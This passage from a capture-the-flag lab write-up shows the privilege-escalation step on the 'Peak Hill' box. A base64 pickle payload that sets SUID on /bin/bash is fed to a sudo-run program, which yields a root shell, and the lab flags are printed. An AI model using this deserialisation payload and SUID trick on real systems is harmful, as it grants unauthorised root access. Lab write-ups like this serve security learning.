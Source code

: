 Let's make the `/bin/bash` suid and then execute with `-p` argument allows the shell to run with SUID privileges.

```bash
$ python exp.py
Y3Bvc2l4CnN5c3RlbQpwMQooUydjaG1vZCB1K3MgL2Jpbi9iYXNoJwpwMgp0UnAzCi4=
```

```bash
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: Y3Bvc2l4CnN5c3RlbQpwMQooUydjaG1vZCB1K3MgL2Jpbi9iYXNoJwpwMgp0UnAzCi4=
This grew to: 
0
dill@ubuntu-xenial:~$ /bin/bash -p
bash-4.3# whoami
root
```

Cool, now to read the `root` flag we have to use wildcards, bcs the name has a space.

```bash
bash-4.3# cat /home/dill/user.txt
f1e13335c47306e193212c98fc07b6a0
bash-4.3# cd /root
bash-4.3# cat *
e88f0a01135c05cf0912cf4bc335ee28
```

Awesome box, learnt ton of stuff, see you!
